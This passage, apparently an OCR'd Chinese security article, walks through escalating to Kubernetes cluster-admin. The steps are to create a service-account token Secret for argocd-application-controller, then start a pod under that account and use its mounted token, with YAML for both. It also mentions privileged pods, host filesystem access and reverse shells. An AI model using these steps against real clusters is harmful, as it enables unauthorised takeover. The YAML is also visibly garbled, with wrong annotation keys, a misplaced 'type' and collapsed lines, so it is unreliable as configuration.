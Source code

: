 ```plain
apiVersion: v1
kind: Secret
metadata:
 name: research-argo-token
 annotations:k8s.io/service-account.name: "argocd-application-controller"
 type: k8s.io/service-account-token
```

假设攻击者在枚举阶段获得的所有token都可以用来 create 和 list "服务帐户"(service accounts)。在这种情况下，攻击者可以为所有的"服务帐户"(service accounts) 创建出额外的secrets，并利用它们进行身份验证，从而有效地赋予它们任何的"服务帐户"的“权限”（这就是为它们创建出secrets的原因）。

给这个名为`argocd-application-controller`的服务帐户创建出的那个secret，为该服务账户提供了“集群管理”(cluster-admin)的权限。

### k8s Pod

k8s有很多方法能创建出1个pod。各种pod创建方法被称为“工作负载资源”( Workload Resources)。这些“工作负载资源”( Workload Resources)包括Pods、Deployments、ReplicaSets、DaemonSets、Jobs、CronJobs和ReplicationControllers。

如果 "服务帐户令牌"(Service Account Tokens) 有权限去创建多个“工作负载资源”( Workload Resources)中的任何一个资源，这就是攻击者可以尝试权限提升的另一种方式。

当攻击者创建1个pod时，他们可以向其中添加privileged flag，从pod中删除所有“安全保护措施”，并让攻击者有权访问host的文件系统。攻击者还可以指定他们想用的那一个"服务账户"，让pod执行各种命令，例如反弹shell，或者为pod指定一个恶意映像。

从k8s Pod开始，拿下集群管理的步骤如下

```plain
1.攻击者获得可以创建pod的sa（如果pod可以在kube-system命名空间里创建就更好了）

2.使用指定的高权限"服务账户"创建Pod

3.有执行权的攻击者进入pod抓取令牌，或让pod运行其他命令

4.攻击者使用新token进行身份验证

5.集群管理
```

创建具有以下配置的pod会提供集群管理员，因为它使用argocd-application-controller"服务账户"并挂载其令牌。

Pod. yaml配置，使用了高权限的"服务账户"：

```plain
apiVersion: v1 kind: Pod metadata:
creationTimestamp: null
labels:
run: research-pod
name: research-pod
spec:
serviceAccountName: argocd-application-controller automountServiceAccountToken: true
containers:
- image: nginx
name: research-pod
resources: {}
dnsPolicy: ClusterFirst
restartPolicy: Always
status: {}
```
